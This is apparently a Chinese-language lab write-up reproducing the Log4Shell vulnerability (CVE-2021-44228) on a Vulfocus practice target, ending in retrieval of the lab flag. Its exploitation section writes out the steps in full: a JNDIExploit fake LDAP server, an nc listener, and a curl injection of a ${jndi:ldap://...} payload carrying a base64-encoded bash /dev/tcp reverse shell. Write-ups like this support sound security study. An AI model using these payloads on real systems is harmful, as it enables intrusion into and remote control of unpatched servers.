 # Vulfocus复现log4j2(CVE-2021-44228)漏洞实验



## 一.实验环境
* kali2024.3
* Vulfocus
* Docker ：20.10
* Docker-Compose ：1.29
* 漏洞环境：Vulfocus 提供的 Log4j2 漏洞靶场
## 二.实验目的
* 复现 Log4j2 远程代码执行（RCE）漏洞（CVE-2021-44228）
* 利用 JNDI 注入实现远程命令执行
* 探索漏洞利用及防御措施
## 三.实验过程

### 1、环境搭建
* 安装 Docker 和 Docker-Compose
* 安装 Vulfocus
* Vulfocus Web 界面启动该靶场。

  ![alt text](./images/image.png)

  访问地址`访问地址: 192.168.56.121:36795`

  ![alt text](images\image-1.png)



### 2、log4j2漏洞复现
#### （1）、log4j2漏洞原理
 
CVE-2021-44228（Log4Shell）是 Apache Log4j2 组件中的一个 远程代码执行（RCE）漏洞。该漏洞允许攻击者通过 JNDI 注入，利用 LDAP 服务器 加载远程恶意代码，从而在目标服务器上执行任意代码。主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
#### （2）、检测漏洞存在性
* 方法一：确认受漏洞影响组件的版本号，此漏洞主要影响的版本为Log4j 2.0-beta9 ~ 2.14.1
  * 查看容器名称
     ```
     docker ps

     ```
     ![alt text](images\image-2.png)

  * 进入容器Shell`docker exec -it cool_gould /bin/bash`
  * 下载demo.jar文件到本地并查看`docker cp 19ea57acca57:/demo/demo.jar ~/Downloads/`
  很明显看到此log4j2的版本为2.14.0，属于漏洞版本

    ![alt text](images\image-3.png)
* 方法二：反汇编dome.jar文件，找到漏洞代码并定位到其中的传递参数（`log4j2逆向`）
   * 下载Java Decompiler反汇编工具`https://java-decompiler.github.io/`
   * 使用Java Decompiler反汇编工具对demo.jar文件进行反汇编，并查看其中的代码
   
     ![alt text](images\image-7.png)
   * **漏洞代码分析**：
      *   在以下代码中`payload` 变量直接传递到 `logger` 进行日志记录。没有进行任何过滤，意味着如果 `payload` 是恶意 `JNDI `语句，Log4j2 会执行 JNDI 解析。导致攻击者可以构造恶意 ${jndi:ldap://...} 语句，让服务器远程加载并执行恶意代码，最终实现 远程代码执行（RCE）。
     ```
      logger.error("{}", payload);
      logger.info("{}", payload);
      logger.info(payload);
      logger.error(payload);
     ```
     * 这两行代码 明确 开启了 JNDI 远程加载。JNDI 本应默认不允许加载远程代码，但这里强行启用了该功能，使漏洞更容易被利用。
     
      ```
       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

       ```
* 方法三：（使用 PoC 手动测试 ${jndi:ldap://0qxc3d.dnslog.cn/exp}）
  * **使用此方法的优点**：DNSLog 提供了一个 唯一的子域名，可以用来监听 目标服务器是否解析了我们提供的 JNDI 网址。并且无需搭建服务器，只需要获取 一个随机子域名，目标服务器如果解析它，我们就可以在 DNSLog 平台上看到记录，证明目标可能存在漏洞。
  * 获取 DNSLog 专属子域名：访问 DNSLog 平台：`http://dnslog.cn/`点击 `“获取子域名”`，它会生成一个唯一的随机子域，`i6dryn.dnslog.cn`

  ![alt text](images\image-4.png)
  * 构造无害 `Payload`，向靶机发送包含 JNDI 协议的恶意 JNDI 载荷，触发 DNS 解析
   `curl 'http://192.168.56.121:39327/hello' -G --data-urlencode 'payload=${jndi:dns://i6dryn.dnslog.cn}'`

    ![alt text](images\image-5.png)
   * 访问 DNSLog 平台，查看解析记录，目标服务器的 Log4j 解析了 {jndi:dns://i6dryn.dnslog.cn}'`并尝试访  问 LDAP 服务器。访问 `i6dryn.dnslog.cn` 说明目标服务器被成功诱导解析，这证明 Log4j2 可能存在漏洞。

    ![alt text](images\image-6.png)

#### （3）、漏洞可利用性验证
##### <1>、下载JNDIExploit.v1.2 Java 反序列化漏洞利用工具，并解压
`wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip `
  
![alt text](images\image-11.png)


##### <2>、在在攻击者机器（ 192.168.56.123）上运行：
`nc -l -p 7777`它会在 端口 7777 上监听 传入的连接。此时，如果目标服务器反向连接到这个端口，攻击者就可以获取远程shell 访问权限。



##### <3>、启动 JNDIExploit 工具，伪造一个 LDAP/RMI 服务器
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.123`
该命令用于 启动 JNDIExploit 工具，伪造一个 LDAP 服务器，监听 IP 192.168.56.123，以便利用 Java 应用程序的 JNDI 注入漏洞（如 Log4Shell）。当目标服务器解析特定 JNDI 语句（如 ${jndi:ldap://192.168.56.123:1389/Exploit}）时，会从该伪造服务器加载恶意代码，从而实现远程代码执行（RCE）或反向 shell 攻击。

##### <4>、发送 GET 请求， 触发 JNDI 注入漏洞
该命令通过 curl 发送 GET 请求，尝试在目标服务器 `192.168.56.121:30815` 触发 JNDI 注入漏洞，并让目标服务器从攻击者的 伪造 LDAP 服务器 (`192.168.56.123:1389`) 下载并执行恶意代码。
```
curl -G http://192.168.56.121:30815/hello --data-urlencode 'payload=${jndi:ldap://192.168.56.123:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.123/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'

```
![alt text](images\image-13.png)
##### <5>、当发送get请求后，可以看到让目标服务器通过 LDAP 服务器下载 Base64 编码的反向 shell，从而远程控制目标机器
![alt text](images\image-14.png)
##### <6>、在攻击者主机中输入`ls /tmp`显示靶机的flag，将flag输入vulfocus中，成功完成漏洞可利用性验证
![alt text](images\image-15.png)

![alt text](images\image-12.png)

#### 3、log4j2逆向（见漏洞存在性检测方法二）


 
